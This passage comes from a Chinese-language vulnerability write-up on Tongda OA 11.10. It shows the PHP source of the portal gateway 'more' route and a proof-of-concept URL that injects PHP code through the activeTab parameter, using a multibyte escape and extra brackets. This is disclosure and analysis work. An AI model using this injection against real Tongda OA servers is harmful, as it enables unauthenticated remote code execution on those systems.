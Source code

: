 ###### 其它可以利用的路由

在actionMore中用到了同样的逻辑来获得dataBack，所以这边也存在利用点，actionMore代码如下：

```
    public function actionMore($id, $module, $activeTab, $curnum, $pagelimit, $keyword)
    {
        Yii::$app-&gt;response-&gt;format = yii\web\Response::FORMAT_JSON;
        $id = modules\portal\controllers\intval($id);
        $curnum = modules\portal\controllers\intval($curnum);
        $pagelimit = modules\portal\controllers\intval($pagelimit);
        $keyword = modules\portal\controllers\td_filterWords($keyword);

        if (empty($id)) {
            return modules\appdesign\models\AppUtils::error(modules\portal\controllers\_("未指定门户组件"));
        }

        $component = new modules\portal\models\PortalComponent();
        $timetype = "";

        if (!$module) {
            $component = modules\portal\models\PortalComponent::find()-&gt;where(array("id" =&gt; $id))-&gt;one();
            $module = $component-&gt;alias;
        }

        $activeTab = ($activeTab ? $activeTab : "");

        if ($module == "video") {
            $activeTab = "More";
        }

        $data = $component-&gt;GetData($id, $module, $activeTab, $curnum, $pagelimit, $timetype, "", "", "", "", $keyword);
        $dataBacks = array("status" =&gt; 1, "data" =&gt; $data);
        $this-&gt;dataBack = modules\appdesign\models\AppUtils::toUTF8($dataBacks);
        return $this-&gt;dataBack;
    }

```

但是需要注意到这边的dataBacks又用了一层array来包裹，所以在做括号闭合时，要多加一层括号，poc如下：

```
/general/appbuilder/web/portal/gateway/more?activeTab=%e5'.var_dump(111)));/*&amp;id=1&amp;module=Zhidao

```

#### 参考文章

[漏洞利用-通达OA11.10前台getshell执行命令-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2200049)
